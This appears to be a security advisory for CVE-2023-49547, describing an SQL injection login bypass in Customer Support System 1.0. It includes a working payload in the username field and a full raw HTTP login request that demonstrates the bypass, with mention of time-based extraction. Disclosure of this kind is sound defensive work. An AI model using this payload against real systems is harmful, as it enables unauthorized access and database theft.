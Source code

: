 # CVE-2023-49547
# Customer Support System 1.0 - SQL Injection Login Bypass

**Description**: Customer Support System is vulnerable 1.0 to SQL Injection. A SQL injection vulnerability in Customer Support System 1.0 enables remote, unauthenticated attackers to bypass the authentication process by exploiting the username parameter.  
  
**Vulnerable Product Version**: Customer Support System 1.0  
**CVE Author**: Geraldo Alcântara  
**Date**: 28/11/2023  
**Confirmed on**: 19/12/2023  
**CVE**: CVE-2023-49547     
**Tested on**: Windows  
### Steps to reproduce:  
1. Visit the login page.
2. Upon making the request, insert the malicious payload (' or 1=1 or '') in the username parameter.
3. In addition to authentication bypass, it is possible to extract information from the database using time-based and boolean-based attacks.

Request: Authentication bypass:
```
POST /customer_support/ajax.php?action=login HTTP/1.1
Host: 192.168.68.148
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: */*
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 54
Origin: http://192.168.68.148
Connection: close
Referer: http://192.168.68.148/customer_support/login.php
Cookie: csrftoken=1hWW6JE5vLFhJv2y8LwgL3WNPbPJ3J2WAX9F2U0Fd5H5t6DSztkJWD4nWFrbF8ko; sessionid=xrn1sshbol1vipddxsijmgkdp2q4qdgq; PHPSESSID=abige9ar0b1bi3qcf9mkv258o3

username='+or+1%3D1+or+''%3D'&password=password&type=1
```
Time Based:
20 seconds
![time01](https://github.com/geraldoalcantara/SQLi-Login-Customer_Support_System/assets/152064551/3c49c314-867d-4f71-a434-3d9b2241711a)

Time Based:
2 seconds
![time02](https://github.com/geraldoalcantara/SQLi-Login-Customer_Support_System/assets/152064551/f4fb16a2-81df-4574-89b1-dcbf026aa0b9)

Discoverer(s)/Credits:  
Geraldo Alcântara  
